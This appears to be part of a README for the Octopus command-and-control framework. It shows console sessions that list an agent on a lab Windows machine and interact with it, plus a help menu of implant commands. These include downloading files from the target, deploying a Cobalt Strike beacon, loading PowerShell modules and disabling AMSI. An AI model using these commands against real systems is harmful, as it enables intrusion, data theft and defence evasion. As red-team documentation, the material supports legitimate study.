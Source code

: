 ```
First of all you can list all connected agents using the `list` command to get the following results:
```
Octopus >>list


  Session  IP            Hostname       PID  Username       Domain        Last ping                 OS
---------  ------------  -----------  -----  -------------  ------------  ------------------------  --------------------------------
        1  192.168.1.43  HR-PC-TYRMJ  10056  hr-pc\labuser  darkside.com  Tue Sep  3 10:22:07 2019  Microsoft Windows 10 Pro(64-bit)


Octopus >>
```

And then we can use the `interact` command to interact with the host as follows:

```
Octopus >>list


  Session  IP            Hostname       PID  Username       Domain        Last ping                 OS
---------  ------------  -----------  -----  -------------  ------------  ------------------------  --------------------------------
        1  192.168.1.43  HR-PC-TYRMJ  10056  hr-pc\labuser  darkside.com  Tue Sep  3 10:22:07 2019  Microsoft Windows 10 Pro(64-bit)


Octopus >>interact 1
(HR-PC-TYRMJ) >>
```

You can list all the available commands using the `help` command like the following:

```
Octopus >>list


  Session  IP            Hostname       PID  Username       Domain        Last ping                 OS
---------  ------------  -----------  -----  -------------  ------------  ------------------------  --------------------------------
        1  192.168.1.43  HR-PC-TYRMJ  10056  hr-pc\labuser  darkside.com  Tue Sep  3 10:22:07 2019  Microsoft Windows 10 Pro(64-bit)


Octopus >>interact 1
(HR-PC-TYRMJ) >> help


Available commands to use :

Hint : if you want to execute system command just type it and wait for the results

+++++++++
help  				show this help menu
exit/back 			exit current session and back to the main screen
clear 				clear the screen output
download 			download file from the target machine
deploy_cobalt_beacon 		deploy cobalt strike powershell beacon in the current process
load 				load powershell module to the target machine
disable_amsi 			disable AMSI on the target machine
report 				get situation report from the target
